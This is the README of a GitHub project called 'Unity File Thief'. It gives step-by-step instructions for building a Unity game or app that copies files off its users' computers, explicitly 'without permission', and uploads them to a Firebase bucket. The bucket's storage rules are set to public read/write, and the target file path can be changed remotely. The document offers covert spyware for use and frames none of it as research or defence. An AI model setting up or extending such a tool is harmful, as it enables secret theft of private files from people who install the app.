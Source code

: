 #🛠It's Updating ...🛠
# ⚠️You May Encounter Errors If You Use It.⚠️


# Unity File Thief
Capture the files of users who installed the Application or Game you created in Unity from an address on their computers without permission (or by asking) and store them on the cloud (Firebase). After collecting the file from the user, you can change the path via Firebase and pull different files.  


## Content
- [Basic Step by Step - Setup](#set-up)
- [Başlık 2](#başlık-2)
- [Başlık 3](#başlık-3)


## Set Up
&nbsp;&nbsp;1- Open your new Unity Project on Unity Hub   
<br>
<br>
**🛠️ SET FIREBASE REALTIME DATABASE & STORAGE FOR UNITY 🛠️**   
   
&nbsp;&nbsp;2- Go to : https://console.firebase.google.com/ . If you dont have any account, Sing Up   
&nbsp;&nbsp;3- Add new Project on Firebase Console (Don't need to enable "Google Analytics")     
&nbsp;&nbsp;4- Add the application to be used in the project panel you opened as Unity   
   
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://github.com/SabriACUN/Unity-File-Thief/assets/96339137/37fc2ca2-5789-4f6f-9de2-b81412b0fee8" width="250"/>

&nbsp;&nbsp;5- Choose the Register Type for Operating System (recommend : Android)   
&nbsp;&nbsp;6- Fill the first blank (com.company.appname) [ !! Not important what you write, Write according to the format ]   
&nbsp;&nbsp;7- Don't download "config file" for now. Next Button !   
&nbsp;&nbsp;8- Download Firebase Unity SDK (Zip) and Continue to Console.   
&nbsp;&nbsp;9- Open Sidebar ( If its closed )   
&nbsp;&nbsp;&nbsp;&nbsp;· Under the "Product Categories > Build > Storeage". Click "Get Started" 
&nbsp;&nbsp;&nbsp;&nbsp;· Start in production mode.   
10- Under the "Storage" text, select Rules. Delete the texts of Rules File and Copy and Paste that Rule : 
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
··· For NOW warning not important "Your security rules are defined as public, so anyone can steal, modify, or delete data in your database." ···    
11- Go to Sidebar and open Build again. Choose Realtime Database.   
&nbsp;&nbsp;&nbsp;&nbsp;· Create Database   
&nbsp;&nbsp;&nbsp;&nbsp;· You can open in Test Mode.   
&nbsp;&nbsp;&nbsp;&nbsp;· Add a new var.    
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; yol  :   "path"   
12- In the Sidebar there is a Settings Button. Click on it. Choose "Project Settings"   
&nbsp;&nbsp;&nbsp;&nbsp;· "General > Your apps" Download "google-services"   
<br>
<br>
**🛠️ SET UNITY FOR FIREBASE 🛠️** 
<br>
13- Go to Unity. Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)   
&nbsp;&nbsp;&nbsp;&nbsp;·Add config file to that folder (google-services)   
14- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages & FirebaseDatabase.unitypackage and drop to project panel on the Unity. and Import   
15- Create new GameObject and add fileThieff.cs & takeString.cs to your GameObject.    
[ -- For logs and errors that may be encountered, the log printing system is included in the codes, so you can delete it if you want or assign the necessary texts to the desired places as a reference. -- ]  
**
<br>
<br>

**🛠️ SET THE SCRIPT FOR YOUR OWN DATABASE 🛠️**
<br>
16- Go to Firebase Project > Storage. Copy Url which starts with gs (example ->  gs://file-thief.appspot.com )   
17- Turn to our script. Find that code line :   
<pre>
"StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);" 
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;· Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url.     
18- Go to Editor and Set Referances for all scripts in Inspector   

**Its Ready to Use !**
- [How to Use](#ho-to-use)
